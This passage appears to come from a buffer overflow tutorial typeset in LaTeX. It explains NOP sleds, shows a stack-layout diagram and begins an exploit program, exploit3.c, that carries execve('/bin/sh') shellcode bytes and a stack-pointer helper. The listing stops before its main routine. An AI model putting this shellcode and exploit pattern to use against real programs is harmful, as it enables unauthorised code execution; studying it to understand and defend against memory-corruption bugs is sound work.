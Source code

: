 \documentclass[10pt]{article}
\begin{document}
\begin{CJK}{UTF8}{bsmi}
As we can see this is not an efficient process. Trying to guess the offset even while knowing where the 
beginning of the stack lives is nearly impossible. We would need at best a hundred tries, and at worst a couple 
of thousand. The problem is we need to guess *exactly* where the address of our code will start. If we are off 
by one byte more or less we will just get a segmentation violation or a invalid instruction. One way to increase 
our chances is to pad the front of our overflow buffer with NOP instructions. Almost all processors have a NOP 
instruction that performs a null operation. It is usually used to delay execution for purposes of timing. We will 
take advantage of it and fill half of our overflow buffer with them. We will place our shellcode at the center, 
and then follow it with the return addresses. If we are lucky and the return address points anywhere in the string 
of NOPs, they will just get executed until they reach our code. In the Intel architecture the NOP instruction is 
one byte long and it translates to 0x90 in machine code. Assuming the stack starts at address 0xFF, that S stands 
for shell code,  and that N stands for a NOP instruction the new stack would look like this: 

{\footnotesize
\begin{verbatim}
bottom of  DDDDDDDDEEEEEEEEEEEE  EEEE  FFFF  FFFF  FFFF  FFFF  top of
memory     89ABCDEF0123456789AB  CDEF  0123  4567  89AB  CDEF  memory
           buffer                sfp   ret   a     b     c
<------   [NNNNNNNNNNNSSSSSSSSS][0xDE][0xDE][0xDE][0xDE][0xDE]
                 ^                     |
                 |_____________________|
top of                                                         bottom of
stack                                                          stack
\end{verbatim}
}


The new exploits is then exploit3.c 

\begin{lstlisting}[caption=exploit3.c]
#include <stdlib.h>
#define DEFAULT_OFFSET                    0
#define DEFAULT_BUFFER_SIZE             512
#define NOP                            0x90

char shellcode[] =
"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46"
"\x07\x89\x46\x0c\xb0\x0b"
"\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80"
"\x31\xdb\x89\xd8\x40\xcd"
"\x80\xe8\xdc\xff\xff\xff/bin/sh";

unsigned long get_sp(void) 
{
   __asm__("movl %esp,%eax");
}


\end{lstlisting}
\end{CJK}
\end{document}
